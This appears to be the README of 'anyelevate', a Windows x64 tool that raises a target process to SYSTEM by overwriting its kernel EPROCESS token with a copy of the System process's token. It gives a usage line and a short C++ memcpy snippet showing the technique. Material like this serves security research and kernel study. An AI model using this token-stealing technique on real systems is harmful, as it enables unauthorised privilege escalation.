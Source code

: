 <p align="center">
<img src="image.png">
  
<img src="https://img.shields.io/github/workflow/status/kkent030315/anyelevate/MSBuild?style=for-the-badge">
<img src="https://img.shields.io/badge/platform-win--64-00a2ed?style=for-the-badge">
<img src="https://img.shields.io/github/license/kkent030315/anyelevate?style=for-the-badge">
</p>

# anyelevate
x64 Windows privilege elevation using anycall

# Usage

```bash
anyelevate.exe [process id]
```

- `[process id]` process id to elevate privilege

# How

Simply create copy of `nt!_EPROCESS.Token` in any desired target process.

```cpp
kernel::memcpy(
    ( void* )( ( uint64_t )process + RVA_PEPROCESS_TOKEN ),
    &system_process_token,
    sizeof( EX_FAST_REF ) );
```

## License

MIT copyright Kento Oki \<hrn832@protonmail.com\>

[color-console](https://github.com/kkent030315/anyelevate/blob/main/anyelevate/color.hpp) copyright 2018 Lei Fu
